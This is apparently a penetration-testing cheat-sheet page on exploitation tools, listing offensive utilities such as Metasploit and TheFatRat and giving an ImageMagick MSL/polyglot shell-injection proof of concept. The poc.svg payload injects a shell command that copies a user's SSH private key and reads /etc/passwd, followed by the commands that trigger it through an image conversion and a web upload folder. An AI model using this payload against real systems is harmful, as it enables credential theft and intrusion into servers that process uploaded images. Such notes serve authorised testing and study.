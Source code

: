 # Exploitation Tools

- [Resources](#resources)

## Table of Contents

- [ImageTragick](#imagetragick)
- [MSL / Polyglot Attack](#msl--polyglot-attack)
- [Metasploit](#metasploit)
- [searchsploit](#searchsploit)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Evil-WinRM | The ultimate WinRM shell for hacking/pentesting | https://github.com/Hackplayers/evil-winrm |
| Exploitalert | Listing of latest Exploits | https://exploitalert.com |
| Metasploit | Metasploit Framework | https://github.com/rapid7/metasploit-framework |
| TheFatRat | TheFatRat is an exploiting tool which compiles a malware with famous payload, and then the compiled maware can be executed on Linux , Windows , Mac and Android. | https://github.com/Screetsec/TheFatRat |

## ImageTragick

> https://imagetragick.com/

## MSL / Polyglot Attack

> https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

### poc.svg

```console
<image authenticate='ff" `echo $(cat /home/<USERNAME>/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

### Executing Payload

```console
$ convert poc.svg poc.png
$ cp /tmp/poc.svg /var/www/html/convert_images/
```
